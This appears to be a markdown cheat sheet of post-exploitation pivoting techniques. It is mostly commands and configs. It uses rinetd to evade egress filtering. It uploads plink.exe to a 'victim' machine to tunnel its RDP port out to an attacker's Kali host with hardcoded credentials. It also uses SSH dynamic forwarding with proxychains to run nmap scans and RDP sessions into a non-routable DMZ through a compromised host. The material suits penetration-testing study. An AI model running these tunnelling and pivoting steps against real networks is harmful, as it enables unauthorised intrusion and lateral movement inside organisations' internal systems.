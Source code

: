 # post exploitation tools
### Port Forwarding and Redirection
Scenario: Client (RDP) --> Remote server. won't be able to connect due to egress restrictions in the network.
Solution: Use a proxy machine (Linux), and `rinetd` service to allow port forwarding.
- Proxy
  - `rinetd service` (port forwarding utility)
    - Proxy: 208.88.127.99 (public ip)
    - Client: not importand
    - Server: 67.23.72.109 (destination server with RDP enabled)
- edit `/etc/rinetd.conf`
```
# bindadress    bindport  connectaddress  connectport
208.88.127.99   80        67.23.72.109    3389
```
- restart the service: `/etc/init.d/rinetd restart`
- now within the client machine, open the RDP client and use the proxy machine's ip with port 80
  - `208.88.127.99:80`

## SSH tunneling and Proxies
Connecting local port to a remote port via ssh tunnel.
Tunneling a remote port to a local server.

### plink (ssh remote port forwarding)
Allowes us to tunnel a `remote port` to a `local server`.
- uploading `plink.exe` to the remote (hacked) machine
- checking that RDP is running on the machine `netstat -na | find "LISTEN"` (look for port `3389`)
- we wish to access the RDP port on this `internal non routable machine`
- we'll `tunnel out` the RDP port from this machine to our kali machine.
- execute on the victim machine `plink -l root -pw rootpassword 208.88.127.99 -R 3390:127.0.0.1:3389`
  - `plink -l kali-user -pw kali-password kali-machine-ip -R new-tunneled-port:127.0.0.1:port-to-expose-out`
  - `-R` remote tunnel, 
  - `127.0.0.1:3389`, traffic from local port 3389 will be tunneled out
- once executed, an SSH tunnel/connection will be made. do NOT use that terminal for anything. keep it open and don't touch it.
- on kali machine, `netstat -na | grep LISTEN`. you'll see that port 3390 is LISTENing to incoming requests.
- on kali machine, open a new terminal. execute the following: `rdesktop 127.0.0.1:3390` which will get tunneled to our victim machine.

### ssh (dynamic port forwarding)
- remote compromised host: 172.16.40.10
- local socks4 proxy (kali machine), listening on port 8080. `netstat -antp | grep 8080`
We'll tunnel and redirect traffic from our attacking (kali) machine to the non-routable DMZ network.

#### ProxyChains (forward and tunnel traffic)
- kali linux
  - `/etc/proxychains.conf`
```
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
# socks4 	127.0.0.1 9050
socks4 	127.0.0.1 8080
```
  - use proxychain to route nmap scan on the destination network via the hacked machine.
    - `proxychains nmap -p 3389 -sT -Pn 172.16.40.18-22 --open`
  - once we find an instance (machine) on the DMZ network (example: host with RDP enabled). We can use proxychains to chain the RDP request from our kali machine.
    - `proxychains rdesktop 172.16.40.20`

